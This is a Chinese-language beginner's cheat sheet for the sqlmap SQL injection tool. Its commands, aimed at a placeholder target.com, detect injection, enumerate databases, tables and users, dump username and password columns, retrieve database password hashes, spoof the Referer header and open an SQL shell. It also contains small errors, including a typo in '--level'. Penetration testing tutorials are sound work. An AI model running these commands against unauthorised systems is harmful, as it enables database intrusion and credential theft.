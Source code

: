 # sqlmap入门
## 一、获取数据命令
1. 判断是否存在注入

        sqlmap.py -u http://target.com
2. 判断文中请求是否存在注入

       sqlmap.py -r target.txt
3. 查询当前用户下的所有数据库

        sqlmap.py -u http://target.com --dbs
4. 获取数据库中的表名

        sqlmap.py -u http://target.com -D database --tables
5. 获取表中的字段名

        sqlmap.py -u http://target.com -D database -T tables --columns
5. 获取字段内容

       sqlmap.py -u http://target.com -D database -T tables -C username,password --dump
6. 获取数据库的所有用户

       sqlmap.py -u http://target.com --users
7. 获取数据库用户密码

       sqlmap.py -u http://target.com --passwords
8. 获取当前网站数据库的名称

        sqlmap.py -u http://target.com --current-db
9. 获取当前网站数据库的用户名称

       sqlmap.py -u http://target.com --current-user


## 二、常用参数讲解
1. --level 探测等级

    1-5个等级，5级payload探测最多。2级会测cookie，3级会测User-Agent/Referer头。

       sqlmap.py -u http://target.com --leve 3
2. --is-dba

    判断当前用户是否为管理员权限

       sqlmap.py -u http://target.com --is-dba
3. --roles

    列出数据库管理员角色

        sqlmap.py -u http://target.com --roles
4. --referer
     
     SQLMap可以在请求中伪造HTTP中的referer，当--level参数为3时，会对referer注入。可以使用referer命令来欺骗。
     
       sqlmap.py -u http://target.com --referer http://www.baidu.com
5. --sql-shell
     运行自定义SQL语句

